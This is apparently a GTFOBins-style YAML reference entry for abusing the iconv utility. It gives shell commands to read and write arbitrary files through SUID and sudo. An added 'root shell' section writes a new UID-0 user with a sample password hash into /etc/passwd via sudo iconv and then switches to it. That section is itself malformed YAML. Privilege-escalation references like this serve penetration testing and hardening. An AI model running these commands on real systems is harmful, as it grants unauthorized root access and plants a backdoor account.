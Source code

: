 ```yaml
---
description: The `8859_1` encoding is used as it accepts any single-byte sequence, thus it allows to read/write arbitrary files. Other encoding combinations may corrupt the result.
functions:
  file-write:
    - code: |
        LFILE=file_to_write
        echo "DATA" | iconv -f 8859_1 -t 8859_1 -o "$LFILE"
  file-read:
    - code: |
        LFILE=file_to_read
        iconv -f 8859_1 -t 8859_1 "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./iconv -f 8859_1 -t 8859_1 "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        ./iconv -f 8859_1 -t 8859_1 "$LFILE"
        
  root shell:
     desciption: add new user to /etc/passwd file with password (password can be generated by the openssl) using file-write technique mentioned above and then switch to that user
     - code: |
          LFILE=/etc/passwd
          echo -e "<User name>:<Password hash>:0:0:root:/root:/bin/bash\n""$(<$LFILE)" | sudo /usr/bin/iconv -f 8859_1 -t 8859_1 -o "$LFILE"
          su <User name>
          example : echo -e "soma:rgMFIrplPFGkk:0:0:root:/root:/bin/bash\n""$(</etc/passwd)" | sudo /usr/bin/iconv -f 8859_1 -t 8859_1 -o "/etc/passwd"
                    su soma
                    password: password
---
```

